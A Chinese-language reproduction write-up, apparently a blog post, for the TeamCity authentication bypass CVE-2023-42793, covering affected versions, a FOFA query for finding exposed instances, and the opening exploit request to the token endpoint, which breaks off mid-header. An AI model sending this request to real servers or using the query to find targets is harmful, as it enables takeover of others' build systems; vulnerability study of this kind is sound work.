

# JetBrains TeamCity RCE漏洞复现(CVE-2023-42793)

### 0x01 产品简介

 [JetBrains](https://so.csdn.net/so/search?q=JetBrains&spm=1001.2101.3001.7020) TeamCity 是 JetBrains 公司开发的一款通用 CI/CD 软件平台。

### 0x02 漏洞概述

 JetBrains TeamCity 可通过访问 /app/rest/users/{ {id}}/tokens/RPC2 端点获取对应 id 用户的有效 token，携带 admin token 访问受限端点导致[远程命令执行](https://so.csdn.net/so/search?q=%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C&spm=1001.2101.3001.7020)或创建后台管理员用户。

### 0x03 影响范围

TeamCity On-Premises version < 2023.05.04 

### 0x04 复现环境

[FOFA](https://so.csdn.net/so/search?q=FOFA&spm=1001.2101.3001.7020)：body="Log in to TeamCity"



### 0x05 漏洞复现 

获取id为1用户的tooken

```cobol
POST /app/rest/users/id:1/tokens/RPC2 HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) V
```
